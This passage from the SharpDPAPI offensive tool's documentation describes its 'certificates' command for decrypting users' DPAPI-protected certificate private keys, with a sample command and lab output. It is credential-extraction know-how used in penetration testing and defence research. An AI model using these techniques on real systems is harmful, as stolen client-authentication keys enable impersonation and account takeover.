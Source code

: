 
    SharpDPAPI completed in 00:00:00.0566660


#### certificates

The **certificates** command will search user encrypted DPAPI certificate private keys a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

The `/unprotect` flag will use CryptUnprotectData() to decrypt private keys, *if* the command is run from the user context whose certificates you are trying to access. This can be done from an _unprivileged_ context, without the need to touch LSASS. For why this approach isn't used for credentials/vaults, see Benjamin's [documentation here](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem).

A specific certificate can be specified with `/target:FILE` or `/target:C:\Folder\`. In both cases, {GUID}:SHA1 values (or `/unprotect`) are required or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

By default, only private keys linkable to an associated installed certificate are displayed. The `/showall` command will display ALL decrypted private keys.

Use the `/cng` flag for CNG private keys (default is capi).

Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp> SharpDPAPI.exe certificates {dab90445-0a08-4b27-9110-b75d4a7894d0}:C23AF7432EB513717AA...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.10.0


    [*] Action: Certificate Triage

    Folder       : C:\Users\harmj0y\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-937929760-3187473010-80948926-1104

      File               : 34eaff3ec61d0f012ce1a0cb4c10c053_6c712ef3-1467-4f96-bb5c-6737ba66cfb0

        Provider GUID    : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
        Master Key GUID  : {dab90445-0a08-4b27-9110-b75d4a7894d0}
        Description      : CryptoAPI Private Key
        algCrypt         : CALG_3DES (keyLen 192)
        algHash          : CALG_SHA (32772)
        Salt             : ef98458bca7135fe1bb89b3715180ae6
        HMAC             : 5c3c3da2a4f6548a0186c22f86d7bc85
        Unique Name      : te-UserMod-8c8e0236-76ca-4a36-b4d5-24eaf3c3e1da

        Thumbprint       : 98A03BC583861DCC19045758C0E0C05162091B6C
        Issuer           : CN=theshire-DC-CA, DC=theshire, DC=local
        Subject          : CN=harmj0y
        Valid Date       : 2/22/2021 2:19:02 PM
        Expiry Date      : 2/22/2022 2:19:02 PM
        Enhanced Key Usages:
            Client Authentication (1.3.6.1.5.5.7.3.2)
             [!] Certificate is used for client auth!
            Secure Email (1.3.6.1.5.5.7.3.4)
            Encrypting File System (1.3.6.1.4.1.311.10.3.4)

